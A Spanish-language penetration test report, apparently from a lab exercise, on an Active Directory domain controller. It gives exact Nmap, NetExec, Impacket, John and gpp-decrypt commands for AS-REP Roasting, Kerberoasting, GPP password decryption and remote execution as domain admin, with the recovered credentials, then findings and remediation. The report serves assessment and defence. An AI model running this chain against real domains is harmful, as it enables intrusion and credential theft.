# Informe técnico de prueba de penetración — Anti Corp

**Clasificación:** Confidencial  
**Organización evaluada:** Anti Corp  
**Activo principal:** `192.168.57.100`  
**Dominio:** `ANTI.LOCAL`  
**Nombre del servidor:** `WIN-4HR37645TEB`  
**Tipo de evaluación:** Prueba de penetración grey-box acotada  
**Periodo de ejecución:** 15 y 16 de julio de 2026  
**Auditor:** `[COMPLETAR NOMBRE]`  
**Versión del documento:** 1.0

> **Declaración de confidencialidad.** Este documento contiene credenciales, rutas internas, configuraciones y evidencias técnicas obtenidas durante una evaluación autorizada. Su distribución debe limitarse a las personas responsables de la revisión y remediación del entorno.

---

## Control del documento

| Versión | Fecha | Autor | Descripción |
|---|---|---|---|
| 1.0 | 16-07-2026 | `[COMPLETAR]` | Consolidación inicial de resultados y evidencias |

---

# 1. Resumen ejecutivo

La evaluación de seguridad realizada sobre el servidor `192.168.57.100`, perteneciente al dominio `ANTI.LOCAL`, confirmó una cadena de vulnerabilidades que permitió avanzar desde una posición sin credenciales hasta obtener ejecución remota con privilegios de administrador del dominio sobre el controlador `WIN-4HR37645TEB`.

La superficie expuesta incluyó un portal Microsoft IIS, servicios propios de Active Directory, SMB, LDAP, Kerberos, RDP y WinRM. En la fase web se identificó un directorio de respaldo publicado dentro del `webroot` con exploración de directorios habilitada. Este directorio permitió recuperar una primera bandera y una imagen que contenía una contraseña temporal oculta mediante esteganografía LSB.

La contraseña recuperada fue validada de forma controlada contra una lista limitada de usuarios, respetando el umbral de bloqueo del dominio. La prueba confirmó el compromiso de la cuenta `r.weasley`. Posteriormente, el acceso a `SYSVOL` permitió identificar una preferencia de directiva de grupo obsoleta con un atributo `cpassword`, cuya contraseña descifrada continuaba reutilizada por la cuenta `bkp_local`. Esta ruta alternativa proporcionó acceso al recurso administrativo `C$` y autorización para RDP, aunque no culminó en privilegios de administrador del dominio.

La ruta principal hacia el compromiso total se obtuvo mediante Active Directory. El controlador permitía enumeración LDAP anónima, lo que expuso cuentas válidas y una contraseña en texto claro dentro de la descripción de `a.turner`. La cuenta `j.smith` tenía deshabilitada la preautenticación Kerberos y utilizaba una contraseña débil, permitiendo obtener y descifrar un hash AS-REP fuera de línea. Con las credenciales de `j.smith` se solicitó un ticket de servicio para `svc_sql`. La contraseña de esta cuenta fue recuperada mediante Kerberoasting y se confirmó que pertenecía directamente al grupo `Admins. del dominio`.

La cuenta `svc_sql` permitió ejecutar comandos remotamente mediante WMI, acceder con lectura y escritura a recursos administrativos y recuperar el archivo protegido `C:\Loot\flag_domain_admin.txt`. La evidencia final obtenida fue:

```text
ANTI{d0m4in_4dmin_ach1eved_ANTI_LOCAL}
```

El riesgo general se clasifica como **crítico**. La combinación de exposición web, credenciales débiles, configuraciones inseguras de Kerberos, contraseñas almacenadas en atributos de Active Directory y privilegios excesivos sobre una cuenta de servicio permite el compromiso completo del dominio.

## 1.1 Principales resultados

| Resultado | Estado |
|---|---|
| Portal y servicios del controlador de dominio identificados | Confirmado |
| Directorio de respaldo accesible sin autenticación | Confirmado |
| Bandera web recuperada | Confirmado |
| Secreto oculto mediante esteganografía extraído | Confirmado |
| Acceso inicial mediante credencial temporal | Confirmado: `r.weasley` |
| Enumeración anónima de Active Directory | Confirmado |
| AS-REP Roasting contra `j.smith` | Confirmado |
| Kerberoasting contra `svc_sql` | Confirmado |
| Privilegios de administrador del dominio | Confirmado |
| Ejecución remota sobre el controlador de dominio | Confirmado |
| Bandera final recuperada | Confirmado |
| Cuentas bloqueadas durante la evaluación | Ninguna observada |
| Persistencia o modificación del dominio | No realizada |

---

# 2. Alcance y reglas de compromiso

## 2.1 Activos incluidos

| Activo | Dirección o identificador | Función |
|---|---|---|
| Servidor Windows | `192.168.57.100` | Portal web y controlador de dominio |
| Dominio | `ANTI.LOCAL` | Active Directory |
| Controlador de dominio | `WIN-4HR37645TEB.ANTI.LOCAL` | Servicios DNS, Kerberos, LDAP, SMB y administración |

## 2.2 Máquina auditora

| Elemento | Valor |
|---|---|
| Sistema | Kali Linux |
| IP de laboratorio | `192.168.57.5/24` |
| Red evaluada | `192.168.57.0/24` |

## 2.3 Actividades realizadas

- Reconocimiento de red y servicios TCP/UDP.
- Enumeración manual y automatizada del portal web.
- Descarga y análisis de archivos publicados.
- Análisis de metadatos y esteganografía.
- Enumeración anónima y autenticada de Active Directory.
- Validación controlada de credenciales.
- Ataques fuera de línea contra material Kerberos.
- Recolección y análisis de relaciones con BloodHound.
- Validación de permisos administrativos y ejecución remota.
- Lectura de la evidencia final protegida.

## 2.4 Restricciones aplicadas

- No se realizaron acciones de denegación de servicio.
- No se ejecutaron ataques indiscriminados de fuerza bruta.
- El password spraying se limitó a una contraseña por cuenta y se detuvo al obtener un resultado válido.
- Los ataques AS-REP Roasting y Kerberoasting se procesaron fuera de línea.
- No se crearon usuarios, no se modificaron grupos y no se alteraron políticas de dominio.
- No se ejecutó `secretsdump`, DCSync ni extracción masiva de credenciales, debido a que el control administrativo ya había sido demostrado.
- No se establecieron mecanismos de persistencia.

## 2.5 Limitaciones

La evaluación se concentró en un único servidor y dominio. Los resultados representan el estado observado durante la ventana de ejecución. No se efectuó una revisión completa del código fuente del portal, análisis de aplicaciones adicionales ni evaluación de controles físicos o de ingeniería social.

---

# 3. Metodología

La evaluación se organizó en fases consecutivas, manteniendo trazabilidad entre comandos, resultados y evidencias:

1. Validación del entorno y conectividad.
2. Descubrimiento de puertos TCP y UDP.
3. Identificación de productos, versiones y funciones.
4. Enumeración del portal web.
5. Obtención y análisis del archivo esteganográfico.
6. Enumeración anónima de Active Directory.
7. Revisión de políticas de contraseña y bloqueo.
8. Validación controlada de credenciales.
9. Enumeración autenticada de SMB, LDAP, SYSVOL y Kerberos.
10. Ataques fuera de línea contra material AS-REP y TGS.
11. Recolección y análisis mediante BloodHound.
12. Validación de Domain Admin y ejecución remota.
13. Recuperación de la evidencia final.

## 3.1 Herramientas principales

| Herramienta | Uso |
|---|---|
| Nmap | Descubrimiento y caracterización de servicios |
| Curl y navegador | Inspección HTTP y recuperación de recursos |
| Gobuster | Enumeración de directorios y archivos |
| ExifTool | Revisión de metadatos |
| zsteg | Identificación y extracción de información LSB |
| NetExec | Enumeración, validación de credenciales y ejecución remota |
| rpcclient | Enumeración anónima de cuentas y grupos |
| ldapsearch | Consultas LDAP anónimas y autenticadas |
| Impacket | AS-REP Roasting, Kerberoasting y comprobaciones RDP |
| John the Ripper | Recuperación fuera de línea de contraseñas |
| smbclient | Enumeración y descarga desde SMB/SYSVOL |
| gpp-decrypt | Descifrado de `cpassword` de Group Policy Preferences |
| BloodHound CE | Análisis de objetos y relaciones de Active Directory |

---

# 4. Resumen de las cadenas de compromiso

## 4.1 Resumen visual de las rutas de compromiso

La siguiente evidencia consolida la ruta principal hasta administrador del dominio y la ruta alternativa iniciada desde el portal web.



## 4.2 Cadena resumida de credenciales

| Orden | Cuenta | Credencial | Origen | Resultado |
|---:|---|---|---|---|
| 1 | `r.weasley` | `Password123` | Secreto LSB de `onboarding.png` | Acceso inicial SMB |
| 2 | `a.turner` | `prison` | Descripción LDAP en texto claro | Acceso SMB y LDAP |
| 3 | `j.smith` | `promise1` | AS-REP Roasting + John | Acceso autenticado al dominio |
| 4 | `bkp_local` | `poodie` | GPP `cpassword` + reutilización | Acceso `C$` y RDP |
| 5 | `svc_sql` | `monsoon` | Kerberoasting + John | Domain Admin y ejecución remota |

---

# 5. Reconocimiento y escaneo

## 5.1 Registro del entorno auditor

Se registró la fecha, las interfaces de red y la ruta hacia la red del laboratorio:

```bash
date
ip -br addr
ip route
```

La máquina Kali utilizó la dirección `192.168.57.5/24` en la interfaz conectada al segmento del objetivo.



## 5.2 Comprobación de conectividad

```bash
ping -c 4 192.168.57.100
sudo nmap -Pn -n -p 80,443,445,3389 192.168.57.100
```

El objetivo respondió a ICMP y presentó abiertos los puertos `80/tcp`, `445/tcp` y `3389/tcp` en la comprobación inicial.





## 5.3 Escaneo completo TCP

```bash
sudo nmap -Pn -n -sS -p- --min-rate 1500 -T4 \
-oA escaneos/01_tcp_completo 192.168.57.100
```

Se identificaron 27 puertos TCP abiertos. La presencia conjunta de DNS, Kerberos, LDAP, SMB, catálogo global y AD Web Services confirmó que el activo cumplía funciones de controlador de dominio. También se identificaron IIS, RDP y WinRM.

| Puerto | Servicio | Observación |
|---:|---|---|
| 53 | DNS | Resolución de nombres de Active Directory |
| 80 | HTTP | Microsoft IIS 10.0 |
| 88 | Kerberos | Autenticación del dominio |
| 135 | MSRPC | Endpoint Mapper |
| 139/445 | NetBIOS/SMB | Recursos compartidos y RPC |
| 389/636 | LDAP/LDAPS | Servicio de directorio |
| 464 | kpasswd | Cambio de contraseñas Kerberos |
| 593 | RPC sobre HTTP | Servicio RPC |
| 3268/3269 | Global Catalog | Catálogo global LDAP |
| 3389 | RDP | Escritorio remoto |
| 5985/47001 | WinRM | Administración remota |
| 9389 | ADWS | Active Directory Web Services |
| 49664–49670 y puertos altos | RPC dinámico | Servicios internos de Windows |



## 5.4 Escaneo UDP

```bash
sudo nmap -Pn -n -sU -p- --open --reason -T5 \
--min-rate 5000 --max-retries 2 --host-timeout 20m \
-oA escaneos/02_udp_completo 192.168.57.100
```

Se confirmaron los puertos `53/udp`, `88/udp`, `123/udp`, `137/udp` y `389/udp`. El análisis UDP utilizó una temporización agresiva apropiada para el laboratorio, por lo que no se considera una actividad sigilosa.



## 5.5 Identificación de servicios

```bash
sudo nmap -Pn -n -sV --version-all \
-p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49668,49670,53542,53543,53546,53553,53565 \
--reason -T4 -oA escaneos/03_tcp_versiones 192.168.57.100
```

Los resultados confirmaron Microsoft IIS 10.0, Windows Server 2022 Build 20348, el dominio `ANTI.LOCAL` y el nombre de servidor `WIN-4HR37645TEB`.



## 5.6 Controles positivos observados

- SMBv1 se encontraba deshabilitado.
- La firma SMB estaba habilitada.
- RDP utilizaba Network Level Authentication.
- Los recursos `ADMIN$` y `C$` no eran accesibles mediante cuentas estándar.
- Los permisos NTFS limitaron la escritura de `bkp_local` en el directorio del portal.

Estos controles redujeron algunos vectores, pero no impidieron el compromiso debido a las debilidades de identidad y credenciales.

---

# 6. Fase web

## 6.1 Inspección del portal

El servicio HTTP en el puerto 80 presentó un portal básico denominado **Anti Corp**, con el mensaje “Portal interno. Área restringida”. La inspección del código fuente no reveló formularios funcionales ni controles de autenticación.



La respuesta HTTP confirmó Microsoft IIS 10.0:

```bash
curl -i http://192.168.57.100/ | tee evidencias/05_respuesta_http_raiz.txt
```



## 6.2 Enumeración mediante robots.txt

```bash
curl -i http://192.168.57.100/robots.txt \
| tee evidencias/06_robots.txt
```

El archivo expuso las rutas:

```text
Disallow: /backup/
Disallow: /intranet/
```



## 6.3 Directorio de respaldo publicado

La ruta `/backup/` permitía exploración de directorios y mostraba los archivos:

- `flag.txt`
- `onboarding.png`
- `web.config`

```bash
curl -i http://192.168.57.100/backup/ \
| tee evidencias/07_backup_directorio.txt
```



La exposición se originó por la directiva de IIS:

```xml
<directoryBrowse enabled="true" />
```

El archivo `web.config` no podía descargarse inicialmente mediante HTTP, pero posteriormente fue leído directamente desde el sistema de archivos utilizando la cuenta `bkp_local`.

## 6.4 Obtención de la bandera web

```bash
curl -i http://192.168.57.100/backup/flag.txt \
| tee evidencias/08_backup_flag.txt
```

Resultado:

```text
FLAG{iis_d1r_br0ws1ng_expuesto}
```



## 6.5 Enumeración adicional

```bash
gobuster dir \
-u http://192.168.57.100/ \
-w /usr/share/wordlists/dirb/common.txt \
-x txt,html,htm,aspx,png,jpg,zip,bak \
-t 30 \
-o evidencias/15_gobuster_raiz.txt
```

La enumeración confirmó `/backup/`, `/intranet/`, `/index.html` y `/robots.txt`. En `/intranet/` se encontró el comentario:

```html
<!-- TODO: sacar los backups del webroot antes de produccion -->
```

El comentario corroboró que los respaldos se habían dejado dentro del directorio publicado.

---

# 7. Fase de esteganografía

## 7.1 Obtención y revisión inicial

La imagen `onboarding.png` fue descargada desde `/backup/` y revisada con ExifTool:

```bash
exiftool evidencias/onboarding.png \
| tee evidencias/10_onboarding_exiftool.txt
```

El archivo correspondía a una imagen PNG válida de `447 × 447` píxeles. No se identificaron comentarios ni metadatos descriptivos relevantes.



## 7.2 Detección del contenido oculto

```bash
zsteg -a evidencias/onboarding.png \
| tee evidencias/11_onboarding_zsteg.txt
```

`zsteg` identificó una cadena en el bit menos significativo de los canales RGB, utilizando el recorrido `b1,rgb,lsb,xy`.



## 7.3 Extracción dirigida

```bash
zsteg -E 'b1,rgb,lsb,xy' evidencias/onboarding.png \
| strings -n 8 \
| tee evidencias/12_onboarding_lsb_extraido.txt
```

Contenido recuperado:

```text
recordatorio-despliegue: DC=192.168.57.100 anti.local | pw temporal altas de dominio (ROTAR): Password123::END
```



## 7.4 Información obtenida

| Elemento | Valor |
|---|---|
| Controlador de dominio | `192.168.57.100` |
| Dominio | `ANTI.LOCAL` |
| Contraseña temporal | `Password123` |
| Técnica | Esteganografía LSB en canales RGB |
| Cuenta asociada inicialmente | No identificada |

La contraseña no se probó inmediatamente. Primero se enumeraron usuarios y se revisó la política de bloqueo para evitar intentos innecesarios.

---

# 8. Enumeración de Active Directory y acceso inicial

## 8.1 Identificación del sistema

```bash
nxc smb 192.168.57.100
```

La respuesta confirmó:

```text
Windows Server 2022 Build 20348 x64
Host: WIN-4HR37645TEB
Dominio: ANTI.LOCAL
SMB Signing: True
SMBv1: None
Null Auth: True
```

Se configuró la resolución local:

```text
192.168.57.100    WIN-4HR37645TEB    anti.local
```

Y el servidor DNS interno:

```text
nameserver 192.168.57.100
search anti.local
```

## 8.2 Enumeración anónima mediante RPC

```bash
rpcclient -U "" -N 192.168.57.100 \
-c 'srvinfo;querydominfo;enumdomusers;enumdomgroups' \
2>&1 | tee evidencias/25_rpcclient_sesion_nula.txt
```

Se obtuvieron las cuentas `Invitado`, `j.smith`, `a.turner`, `h.potter` y `r.weasley`, además de grupos y RID del dominio.



## 8.3 Política de contraseñas y bloqueo

```bash
ldapsearch -x \
-H ldap://192.168.57.100:389 \
-b "DC=ANTI,DC=LOCAL" \
-s base \
"(objectClass=domain)" \
minPwdLength pwdHistoryLength maxPwdAge minPwdAge \
lockoutThreshold lockoutDuration lockOutObservationWindow \
pwdProperties ms-DS-MachineAccountQuota
```

| Parámetro | Resultado |
|---|---|
| Longitud mínima | 4 caracteres |
| Complejidad | Deshabilitada |
| Historial | 24 contraseñas |
| Caducidad máxima | No configurada |
| Umbral de bloqueo | 5 intentos |
| Duración del bloqueo | 15 minutos |
| Ventana de observación | 15 minutos |
| MachineAccountQuota | 10 |



## 8.4 Decisión de acceso y prevención de bloqueos

La contraseña `Password123` se evaluó una sola vez contra cuatro cuentas confirmadas. Se excluyó `Invitado` y se detuvo la prueba al identificar una combinación válida. Esta estrategia mantuvo cada cuenta por debajo del umbral de cinco intentos y evitó fuerza bruta reiterada.

```bash
nxc smb 192.168.57.100 \
-d ANTI \
-u evidencias/30_usuarios_confirmados.txt \
-p 'Password123' \
2>&1 | tee evidencias/31_validacion_credencial_smb.txt
```

Resultado:

| Cuenta | Resultado |
|---|---|
| `j.smith` | Rechazada |
| `a.turner` | Rechazada |
| `h.potter` | Rechazada |
| `r.weasley` | Válida |

Credencial confirmada:

```text
ANTI\r.weasley : Password123
```



## 8.5 Acceso a recursos compartidos

```bash
nxc smb 192.168.57.100 \
-d ANTI \
-u r.weasley \
-p 'Password123' \
--shares
```

`r.weasley` obtuvo lectura sobre `IPC$`, `NETLOGON` y `SYSVOL`, sin acceso administrativo a `ADMIN$` o `C$`.



## 8.6 Enumeración LDAP anónima y contraseña expuesta

```bash
nxc ldap 192.168.57.100 -u '' -p '' --users
```

La descripción de `a.turner` contenía:

```text
Cuenta temporal migracion - pw: prison (rotar despues del corte)
```



La credencial fue validada mediante SMB y LDAP:

```bash
nxc smb 192.168.57.100 -u 'a.turner' -p 'prison' -d 'ANTI.LOCAL'
nxc ldap 192.168.57.100 -u 'a.turner' -p 'prison' -d 'ANTI.LOCAL'
```



La consulta manual mediante `ldapsearch` confirmó que la base del dominio permitía búsquedas anónimas:

```bash
ldapsearch -x -H ldap://192.168.57.100 \
-b 'dc=anti,dc=local' \
'(objectClass=user)' \
sAMAccountName
```



---

# 9. Ruta principal de escalada a Domain Admin

## 9.1 Identificación de j.smith vulnerable a AS-REP Roasting

Se utilizó la lista de usuarios confirmados para determinar si alguna cuenta tenía deshabilitada la preautenticación Kerberos:

```bash
python GetNPUsers.py ANTI.LOCAL/ \
-no-pass \
-usersfile user.txt \
-format hashcat \
-dc-ip 192.168.57.100
```

La cuenta `j.smith` devolvió un hash con formato:

```text
$krb5asrep$23$j.smith@ANTI.LOCAL:...
```

Esto confirmó la propiedad `UF_DONT_REQUIRE_PREAUTH`.



## 9.2 Recuperación de la contraseña de j.smith

El hash se procesó fuera de línea mediante John the Ripper:

```bash
john --format=krb5asrep \
--wordlist=/usr/share/wordlists/rockyou.txt \
evidencias/asrep_j_smith.txt

john --show --format=krb5asrep evidencias/asrep_j_smith.txt
```

Resultado:

```text
promise1    ($krb5asrep$23$j.smith@ANTI.LOCAL)
```



La credencial fue validada mediante LDAP:

```bash
nxc ldap 192.168.57.100 \
-u 'j.smith' \
-p 'promise1' \
-M get-desc-users
```

Resultado:

```text
[+] ANTI.LOCAL\j.smith:promise1
```



Como comprobación complementaria, se compararon los recursos SMB visibles con las distintas credenciales obtenidas durante la evaluación.



## 9.3 Enumeración de cuentas con SPN

Después de sincronizar la hora de Kali con el controlador de dominio, se solicitaron tickets para cuentas con Service Principal Name:

```bash
sudo timedatectl set-ntp false
sudo ntpdate -u 192.168.57.100

python GetUserSPNs.py \
-dc-ip 192.168.57.100 \
'ANTI.LOCAL/j.smith:promise1' \
-request \
-outputfile evidencias/kerberoast_hashes.txt
```

La consulta identificó:

```text
Cuenta: svc_sql
SPN: MSSQLSvc/WIN-4HR37645TEB.
Grupo observado: Admins. del dominio
```

El ticket TGS se obtuvo en formato RC4 `etype 23`.



## 9.4 Recuperación de la contraseña de svc_sql

```bash
john --format=krb5tgs \
--wordlist=/usr/share/wordlists/rockyou.txt \
evidencias/kerberoast_hashes.txt

john --show --format=krb5tgs evidencias/kerberoast_hashes.txt
```

Resultado:

```text
svc_sql : monsoon
```



La recuperación se realizó fuera de línea, sin generar intentos fallidos repetidos contra la cuenta.

## 9.5 Confirmación de privilegios administrativos

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL'
```

NetExec devolvió:

```text
[+] ANTI.LOCAL\svc_sql:monsoon (Pwn3d!)
```

La enumeración de recursos mostró lectura y escritura sobre `ADMIN$`, `C$`, `NETLOGON` y `SYSVOL`:

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
--shares
```



La pertenencia al grupo privilegiado fue confirmada mediante LDAP:

```bash
ldapsearch -x \
-H ldap://192.168.57.100 \
-D 'svc_sql@anti.local' \
-w 'monsoon' \
-b 'dc=anti,dc=local' \
'(sAMAccountName=svc_sql)' \
sAMAccountName memberOf servicePrincipalName userAccountControl
```

Resultado relevante:

```text
memberOf: CN=Admins. del dominio,CN=Users,DC=ANTI,DC=LOCAL
userAccountControl: 66048
```

El valor `66048` indica una cuenta normal habilitada con contraseña configurada para no expirar.



## 9.6 Ejecución remota sobre el controlador de dominio

Se validó ejecución remota mediante WMI:

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
-x 'whoami'

nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
-x 'hostname'
```

Resultados:

```text
anti\svc_sql
WIN-4HR37645TEB
```



Se revisó el token de acceso:

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
-x 'whoami /all'
```

La salida confirmó pertenencia a:

```text
BUILTIN\Administradores
ANTI\Admins. del dominio
```

También se observaron privilegios como `SeBackupPrivilege`, `SeRestorePrivilege`, `SeDebugPrivilege`, `SeTakeOwnershipPrivilege` y `SeImpersonatePrivilege`, junto con un nivel de integridad alto.



## 9.7 Localización y lectura de la evidencia final

Se identificó un acceso directo reciente dentro del perfil administrativo:

```text
C:\Users\Administrador\AppData\Roaming\Microsoft\Windows\Recent\flag_domain_admin.lnk
```

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
-X '$s=(New-Object -ComObject WScript.Shell).CreateShortcut("C:\Users\Administrador\AppData\Roaming\Microsoft\Windows\Recent\flag_domain_admin.lnk"); $s.TargetPath'
```

El destino era:

```text
C:\Loot\flag_domain_admin.txt
```





Finalmente, se leyó el archivo:

```bash
nxc smb 192.168.57.100 \
-u 'svc_sql' \
-p 'monsoon' \
-d 'ANTI.LOCAL' \
-X 'Get-Content -LiteralPath "C:\Loot\flag_domain_admin.txt"'
```

Resultado:

```text
ANTI{d0m4in_4dmin_ach1eved_ANTI_LOCAL}
```



---

# 10. Rutas alternativas y análisis complementario

## 10.1 Revisión de SYSVOL con r.weasley

```bash
for recurso in NETLOGON SYSVOL; do
    echo "===== $recurso ====="
    smbclient "//192.168.57.100/$recurso" \
    -U 'ANTI\r.weasley%Password123' \
    -c 'recurse ON;ls'
done
```

Dentro de la GPO `{AAAAAAAA-1111-2222-3333-444444444444}` se identificó:

```text
Machine\Preferences\Groups\Groups.xml
```



El archivo contenía:

```text
cpassword="RX33H9QQRiRROhueVlC9+w=="
```



## 10.2 Descifrado de la contraseña GPP

```bash
gpp-decrypt 'RX33H9QQRiRROhueVlC9+w==' \
| tee evidencias/34_gpp_password_descifrada.txt
```

Resultado:

```text
poodie
```



La contraseña no era válida para la cuenta administrativa RID 500 indicada en la preferencia. La consulta LDAP tampoco encontró un objeto GPO activo con el GUID correspondiente, por lo que la carpeta se clasificó como artefacto huérfano o histórico. Sin embargo, la contraseña seguía reutilizada por otra cuenta.

## 10.3 Compromiso de bkp_local

Se probó `poodie` de forma controlada contra cuentas habilitadas y se identificó:

```text
ANTI\bkp_local : poodie
```

La cuenta presentó acceso al recurso administrativo `C$` y pudo enumerar `C:\inetpub\wwwroot`, leer el archivo `web.config` y validar acceso RDP. Los permisos NTFS impidieron acceder a `C:\Loot` y escribir en el directorio web.





```bash
impacket-rdp_check 'ANTI/bkp_local:poodie@192.168.57.100'
```

Resultado:

```text
[*] Access Granted
```



Esta ruta demostró que una credencial histórica expuesta en SYSVOL seguía activa por reutilización, ampliando el acceso al servidor. No se utilizó como ruta final porque no proporcionó acceso al directorio protegido `C:\Loot` ni confirmó Domain Admin.

## 10.4 Recolección con BloodHound

La cuenta `r.weasley` se utilizó para recopilar relaciones de Active Directory:

```bash
bloodhound-ce-python \
-d ANTI.LOCAL \
-u r.weasley \
-p 'Password123' \
-ns 192.168.57.100 \
-dc WIN-4HR37645TEB.ANTI.LOCAL \
-c All \
--auth-method ntlm \
--zip \
-op evidencias/bloodhound/anticorp
```

La recolección identificó:

| Tipo | Cantidad |
|---|---:|
| Dominios | 1 |
| Equipos | 1 |
| Usuarios | 10 |
| Grupos | 52 |
| GPO activas | 2 |
| Unidades organizativas | 1 |
| Contenedores | 19 |
| Relaciones de confianza | 0 |



Los ZIP automáticos quedaron vacíos, pero los siete archivos JSON se generaron correctamente. Se validaron y empaquetaron manualmente en:

```text
anticorp_20260716011054_manual.zip
SHA-256: 188e5248a1b0e27dfd65d8f631fc692829ec283521974bd26cc98db6dfce2d33
```



El paquete fue importado en BloodHound Community Edition.



La cuenta `BKP_LOCAL@ANTI.LOCAL` aparecía como objeto Tier Zero, con `AdminCount=True`, herencia ACL deshabilitada y contraseña sin caducidad. Estas propiedades indicaban relación histórica o actual con grupos protegidos, aunque no bastaban por sí solas para confirmar Domain Admin.



> **[COLOCAR CAPTURA ADICIONAL — BLOODHOUND]** Insertar una vista de `SVC_SQL@ANTI.LOCAL` mostrando su pertenencia directa a `DOMAIN ADMINS@ANTI.LOCAL` o `Admins. del dominio`. Esta captura reforzaría visualmente la ruta principal ya confirmada mediante LDAP y `whoami /all`.

> **[COLOCAR CAPTURA OPCIONAL — RDP]** Insertar una sesión gráfica iniciada como `ANTI\bkp_local`, mostrando únicamente `whoami` y `hostname`, sin exponer datos ajenos al alcance. La comprobación actual con `impacket-rdp_check` ya demuestra que la credencial es aceptada.

---

# 11. Hallazgos de seguridad

## 11.1 Resumen consolidado

| ID | Hallazgo | Severidad | Estado |
|---|---|---:|---|
| WEB-01 | Exploración de directorios y respaldos dentro del webroot | Alta | Confirmado |
| STEG-01 | Contraseña temporal oculta en un recurso web | Alta | Confirmado |
| AD-01 | Enumeración anónima de usuarios y objetos del dominio | Alta | Confirmado |
| AD-02 | Política de contraseñas insuficiente | Alta | Confirmado |
| AD-03 | Contraseña en texto claro en la descripción de una cuenta | Crítica | Confirmado |
| AD-04 | Cuenta vulnerable a AS-REP Roasting con contraseña débil | Crítica | Confirmado |
| AD-05 | Credencial GPP reversible y reutilizada | Crítica | Confirmado |
| AD-06 | Cuenta de servicio privilegiada vulnerable a Kerberoasting | Crítica | Confirmado |

## 11.2 WEB-01 — Exploración de directorios y respaldos dentro del webroot

**Activo:** `http://192.168.57.100/backup/`  
**Severidad:** Alta

**Descripción.** El directorio `/backup/` tenía habilitada la exploración de archivos y contenía recursos internos publicados sin autenticación. `robots.txt` revelaba su ubicación y el archivo `web.config` confirmaba `directoryBrowse enabled="true"`.

**Evidencia.** EVID-009, EVID-010 y EVID-011.

**Impacto.** Permitió recuperar una bandera, identificar archivos de configuración y descargar `onboarding.png`, que contenía una credencial temporal. La exposición web fue el punto de entrada de una ruta de compromiso válida.

**Remediación.** Deshabilitar Directory Browsing, retirar respaldos de `wwwroot`, restringir el acceso mediante autenticación, revisar el proceso de despliegue y escanear el contenido publicado antes de llevarlo a producción.

## 11.3 STEG-01 — Contraseña temporal oculta en un recurso web

**Activo:** `onboarding.png`  
**Severidad:** Alta

**Descripción.** La imagen contenía la contraseña `Password123` mediante esteganografía LSB en los canales RGB.

**Evidencia.** EVID-012, EVID-013 y EVID-014.

**Impacto.** La contraseña estaba activa para `r.weasley` y permitió acceso autenticado a Active Directory. Ocultar un secreto en una imagen no constituye cifrado ni un control de acceso.

**Remediación.** Revocar la contraseña, prohibir secretos en archivos multimedia, utilizar un gestor de secretos, asignar contraseñas temporales únicas y exigir cambio en el primer inicio de sesión.

## 11.4 AD-01 — Enumeración anónima de usuarios y objetos del dominio

**Activo:** LDAP, SMB/RPC y SAMR del controlador de dominio  
**Severidad:** Alta

**Descripción.** El servidor permitió enumerar usuarios, grupos, atributos y propiedades del dominio sin credenciales.

**Evidencia.** EVID-015, EVID-026 y EVID-028.

**Impacto.** Facilitó la construcción de listas de usuarios, la identificación de cuentas vulnerables a Kerberos y la recuperación de una contraseña almacenada en una descripción.

**Remediación.** Restringir binds LDAP anónimos, impedir enumeración anónima de cuentas SAM, limitar canalizaciones RPC, revisar las políticas `Network access` y supervisar consultas anónimas inusuales.

## 11.5 AD-02 — Política de contraseñas insuficiente

**Activo:** Dominio `ANTI.LOCAL`  
**Severidad:** Alta

**Descripción.** La longitud mínima era de cuatro caracteres, la complejidad estaba deshabilitada y no se establecía caducidad máxima.

**Evidencia.** EVID-016.

**Impacto.** Contraseñas como `promise1` y `monsoon` fueron recuperadas de forma inmediata mediante diccionarios públicos. La ausencia de caducidad aumenta el tiempo de exposición.

**Remediación.** Establecer una longitud mínima de al menos 12–14 caracteres, aplicar listas de contraseñas prohibidas, utilizar frases largas, habilitar MFA para accesos administrativos y revisar cuentas con `PasswordNeverExpires`.

## 11.6 AD-03 — Contraseña en texto claro en la descripción de una cuenta

**Activo:** Cuenta `a.turner`  
**Severidad:** Crítica

**Descripción.** El atributo de descripción contenía la contraseña funcional `prison`.

**Evidencia.** EVID-026 y EVID-027.

**Impacto.** Un usuario no autenticado pudo obtener una credencial vigente y autenticarse mediante SMB y LDAP.

**Remediación.** Eliminar secretos de atributos de directorio, rotar la contraseña, revisar otras descripciones, notas y atributos personalizados, y limitar la lectura anónima del directorio.

## 11.7 AD-04 — Cuenta vulnerable a AS-REP Roasting con contraseña débil

**Activo:** Cuenta `j.smith`  
**Severidad:** Crítica

**Descripción.** `j.smith` tenía deshabilitada la preautenticación Kerberos y utilizaba la contraseña `promise1`, recuperable con `rockyou.txt`.

**Evidencia.** EVID-029, EVID-030 y EVID-031.

**Impacto.** Permitió obtener una cuenta válida sin realizar intentos repetidos de autenticación y habilitó la enumeración de cuentas de servicio.

**Remediación.** Habilitar preautenticación Kerberos, rotar la contraseña, aplicar una credencial larga y única, revisar todas las cuentas con `DONT_REQ_PREAUTH` y alertar sobre solicitudes AS-REP anómalas.

## 11.8 AD-05 — Credencial GPP reversible y reutilizada

**Activo:** `SYSVOL` y cuenta `bkp_local`  
**Severidad:** Crítica

**Descripción.** Un archivo `Groups.xml` histórico contenía un `cpassword` descifrable como `poodie`. La contraseña ya no era válida para la cuenta administrativa indicada, pero seguía reutilizada en `bkp_local`.

**Evidencia.** EVID-019, EVID-020, EVID-021, EVID-042, EVID-043 y EVID-044.

**Impacto.** Permitió acceso al recurso `C$`, lectura de archivos del portal y autorización RDP. Demostró que una credencial histórica expuesta continuaba activa en otra identidad.

**Remediación.** Eliminar preferencias GPP con `cpassword`, borrar carpetas GPO huérfanas, rotar todas las contraseñas relacionadas, impedir reutilización y revisar SYSVOL completo en busca de secretos.

## 11.9 AD-06 — Cuenta de servicio privilegiada vulnerable a Kerberoasting

**Activo:** `svc_sql`  
